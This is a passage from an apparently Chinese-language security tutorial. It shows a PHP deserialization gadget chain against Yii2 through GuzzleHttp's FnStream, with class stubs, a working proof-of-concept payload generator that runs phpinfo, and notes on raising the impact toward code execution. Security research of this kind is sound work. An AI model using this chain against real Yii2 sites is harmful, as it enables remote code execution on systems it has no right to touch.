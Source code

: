 对于 poc 的编写, 需要注意命名空间. 否则无法定位到相应的类. 也因为他会自动定位到相应的类，所以不用像原本定义一样继承相应的父类.

vendor/yiisoft/yii2/db/BatchQueryResult.php

```
namespace yii\db;
class BatchQueryResult {
    // 需要控制的成员属性
    private $_dataReader;
}
```

vendor/guzzlehttp/psr7/src/FnStream.php

```
namespace GuzzleHttp\Psr7;
class FnStream implements StreamInterface {
    // 需要控制的参数, 原本并没有定义所以无要求
    var $_fn_close;
}
```

poc 如下

```
<?php
namespace GuzzleHttp\Psr7 {
    class FnStream {
        var $_fn_close = "phpinfo";
    }
}
namespace yii\db {
    use GuzzleHttp\Psr7\FnStream;
    class BatchQueryResult {
        // 需要控制的成员属性
        private $_dataReader;
        public function __construct() {
            $this->_dataReader  = new FnStream();
        }
    }
    $b = new BatchQueryResult();
    var_dump(serialize($b));
}
```

执行成功.  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJLYJa9pWJlk3K1ud0G3b23KJUE00gFDibr73wAzzN5PnBbzRnVwcValYg/640?wx_fmt=png)

危害放大
----

可以注意到, FnStream 类中的 call_user_func 只有一个参数. 翻一翻官方文档，发现了相应的解决方法. 所以遇到阻塞时，多翻翻手册也许会柳暗花明

![](https://mmbiz.qpic.cn/sz_mmbiz_png/WdbaA7b2IE6D8InhXuGX2q6Cbw7zhMJL7Tg8PwrUVvmuhQNDI18TYmobCnA3oeAibkwrAKS7vLRezSfI9a2k2aA/640?wx_fmt=png)

如果要放大危害，这里只能作为跳板，还需要一个类. 全局搜索各危险函数. 寻找参数可控的方法.
